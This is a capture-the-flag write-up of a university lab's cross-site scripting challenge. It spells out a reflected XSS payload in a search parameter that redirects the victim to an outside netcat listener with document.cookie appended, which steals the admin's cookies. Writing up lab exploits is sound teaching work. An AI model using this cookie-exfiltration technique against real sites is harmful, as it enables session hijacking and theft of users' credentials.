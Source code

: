 # Challenge `My favourite cookies` writeup

- Vulnerability: Cross-Site Scripting Lab (XSS)

- Where: feedback_link input through search input (lure admin)

- Impact: attacker is able to inject malicious code in the webpage in order to get other's person cookies
---

## Steps to reproduce

1. Host a machine in Técnico, SSH to nexus.rnl.tecnico.ulisboa.pt (e.g. ssh <your_ist_user>@nexus.rnl.tecnico.ulisboa.pt).
2. Run nc -vv -l -p PORT (use a PORT between 30000 and 40000). Server is now listening on any address 30000.
3. Create a script that use 'window.location.href' property to set the URL to a new location (nexus server).
4. Use the 'encodeURIComponent' function to make sure the cookie value is properly encoded to use in a URL and concat it with the nexus server link, like this:
- 'http://nexus.rnl.tecnico.ulisboa.pt:PORT/?cookie='.concat(encodeURIComponent(document.cookie))
5. Add the script to the feedback_link with search exploit for code injection, like this:
- http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=SCRIPT
6. Submit it (lure admin)

[(POC)](My_favourite_cookies.txt)

